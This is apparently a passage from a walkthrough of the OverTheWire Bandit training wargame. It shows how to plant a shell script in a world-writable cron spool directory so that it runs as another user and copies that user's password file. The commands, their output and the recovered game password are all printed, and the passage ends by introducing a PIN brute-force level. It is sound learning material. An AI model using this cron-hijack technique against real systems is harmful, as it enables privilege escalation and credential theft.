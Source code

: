So it navigates to `/var/spool/bandit24` directory and executes all scripts as bandit24. Alright, so we need to make our script that writes the contents of `/etc/bandit_pass/bandit24` somewhere. 

Make sure you give the script and the folder the correct permissions.

```console
bandit23@bandit:/etc/cron.d$ mkdir /tmp/bd2324
bandit23@bandit:/etc/cron.d$ chmod 777 /tmp/bd2324
bandit23@bandit:/etc/cron.d$ cd /tmp/bd2324
bandit23@bandit:/tmp/bd2324$ cat > myscript2324.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bd2324/password
^C
bandit23@bandit:/tmp/bd2324$ chmod 777 myscript2324.sh
```

Okay now that we've create the script and gave it all the proper permissions...we just need to copy that script to correct path contained within the `cronjob_bandit24.sh` script.
```console
bandit23@bandit:/tmp/bd2324$ cp myscript2324.sh /var/spool/bandit24/
```

Now we wait for cron to execute the script. 

**Pro TIP**: If you don't want to type `ls` a gazillion times waiting for the file to appear use the following:

`watch -n 1 -x ls /tmp/bd2324`

Watch essentially repeats the `ls` command at our directory every 1 second. 

```console
bandit23@bandit:/tmp/bd2324$ ls -al /var/spool/bandit24/
total 153
drwxrwxrwx 2 bandit24 bandit23 151552 Oct 21 23:08 .
drwxr-xr-x 6 root   root    4096 May 3 2015 ..
bandit23@bandit:/tmp/bd2324$ ls
password myscript2324.sh
bandit23@bandit:/tmp/bd2324$ cat password
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

Script got deleted, which means cron executed it and we got our password!

> **Username:** bandit24
> **Password:** UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

---

## Bandit 25

[http://overthewire.org/wargames/bandit/bandit25.html](http://overthewire.org/wargames/bandit/bandit25.html)

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
